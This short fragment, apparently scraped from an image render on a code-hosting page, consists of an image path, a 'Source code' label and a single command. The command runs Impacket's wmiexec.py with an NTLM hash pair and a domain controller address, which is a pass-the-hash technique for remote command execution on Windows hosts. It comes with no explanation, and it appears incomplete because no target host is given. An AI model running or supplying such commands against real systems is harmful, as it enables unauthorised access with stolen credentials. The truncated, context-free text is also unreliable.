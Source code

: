 



python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:124cc8a328582c160bd74b7afc8a2b7e -dc-ip 192.168.208.136